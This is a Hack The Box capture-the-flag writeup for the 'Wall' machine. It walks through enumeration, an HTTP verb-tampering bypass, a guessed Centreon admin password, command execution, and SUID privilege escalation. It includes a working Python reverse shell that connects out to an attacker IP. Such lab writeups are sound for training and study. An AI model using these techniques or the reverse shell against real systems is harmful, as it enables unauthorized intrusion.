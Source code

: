 ```yaml
---
layout: single
title: HackTheBox - Wall Writeup
date: 2019-12-07
classes: wide
header:
  teaser: /assets/images/HTB.png
tags:
  - HackTheBox
  - Penetration Testing
--- 
```



This is a writeup for the recently retired box Wall from [Hack The Box]( https://www.hackthebox.eu/). While this machine does not currently appear on the list of [“OSCP-like boxes”]( https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159), I believe it is in line with what would be expected of someone during the OSCP.

## Enumeration
After ensuring connectivity to the box, I conducted an all-port scan with nmap using the `-p-` flag. The only two ports open were SSH running on port 22, and HTTP running on port 80. These two ports are fairly standard for HTB style boxes and indicate the initial foothold will be obtained via the webserver on port 80.
	
![](/assets/images/HTB/Wall/Wall1.png)
*Figure 1. Service Detection Scan Against Port 22 & 80.*

Above, Figure 1 shows the output of a service detection scan against these two open ports. Additionally, nmap identified that this machine’s operating system is Ubuntu.

Next I preformed directory brute-forcing against the webserver in order to identify any hidden pages that may aid in obtaining an initial foothold. 

![](/assets/images/HTB/Wall/Wall2.png)
*Figure 2. Results of Interest from Gobuster*

Figure 2 shows the results of a Gobuster scan used to find additional webpages. However, manual inspection of all the status 200 pages returned no additional useful information. Next I shifted my focus to the `/monitoring` page which returned HTTP status 401, meaning unauthorized. Upon visiting this webpage the user is prompted for credential; however, standard default credentials of `admin:admin` did not work.

After unsuccessfully trying a few other things to bypass this login, I captured the HTTP GET request with Burp Suite to better analyze its behavior. I recalled from an earlier nikto scan I conducted that allowable HTTP verbs included GET, POST, HEAD, and OPTIONS.

![](/assets/images/HTB/Wall/Wall3.png)
*Figure 3. Snip from Nikto Scan*

Thus, with Burp Suite I manually edited the HTTP verb from GET to POST and repeated the HTTP request. I decided to do this as when credentials are submitted to a website it is usually done via POST request, so I hoped this would trick the webpage into believing it was authenticated.

![](/assets/images/HTB/Wall/Wall4.png)
*Figure 4. POST Request Sent with Burp Suite*

To my surprise, I received a redirection to the webpage `/monitoring/'/centreon'`; however, as this link appeared to be broken, I attempted to manually browse to `/centreon` and discovered a new login portal.

![](/assets/images/HTB/Wall/Wall5.png)
*Figure 5. Hidden Centreon Login Portal*

After struggling with Hydra and Patator syntax to bruteforce this login, I reverted to manually guessing the password. While this is not the most elegant solution, I eventually got in with the valid credentials of `admin:password1`. However, I am sure it is possible to determine these credentials with Hydra or Burp Intruder.

## Initial Foothold

After manually enumerating the website a bit more, I began to search for exploits related to Centreon version 19.04. One exploit for remote code execution immediately stood out as matching this exact version. The [exploit]( https://www.exploit-db.com/exploits/47069) was even published by the same author who published this box on HTB! While I was sure this was the intended route, attempts to use this exploit or manually replicate it ultimately failed.

Next I discovered [this](https://gist.github.com/sinfulz/ef49270e245df050af59cc3dd3eefa6b) page which detailed the steps to execute single commands as a part of Centreon’s built in functionality.

I confirmed that commands were being executed by the webserver by running `whoami` and receiving the response `www-data`.

![](/assets/images/HTB/Wall/Wall6.png)
*Figure 6. Executing Commands with Centreon*

After verifying the presence of python on the machine by executing `which python`, I created a small python reverse shell file and used `wget` to transfer this file to the Centreon box.

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.57",443));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; 
pty.spawn("/bin/bash")
```
Finally, executing the command with `python shell.py` results in a successful reverse shell as www-data.

![](/assets/images/HTB/Wall/Wall7.png)
*Figure 7. Successful Reverse Shell Connection*


## Privilege Escalation
After transferring and running [Linux Smart Enum](https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh) I noticed an uncommon SUID binary.

![](/assets/images/HTB/Wall/Wall8.png)
*Figure 8. Results of lse.sh Script*

Further research into this SUID binary reveals [this](https://www.exploit-db.com/exploits/41154) privilege escalation exploit. Since `gcc` was installed on the box I determined it should be successful. Reading through the exploit I manually replicated the steps, creating both a `libhax.c` and a `rootshell.c` file and following the steps to compile listed in the exploit.

![](/assets/images/HTB/Wall/Wall9.png)
*Figure 9. Successful Privilege Escalation to Root*

In conclusion, there were aspects of this box I found to be similar to PWK/ OSCP boxes. While the guessing of the password might have been a bit out of scope for PWK (where most passwords are `admin:admin`), the manually exploring of the web application and gaining command execute was definitely something that would be expected of a PWK student.  


![Hits](https://hitcounter.pythonanywhere.com/count/tag.svg?url=https%3A%2F%2Fcinzinga.github.io%2FHTB-Wall%2F)
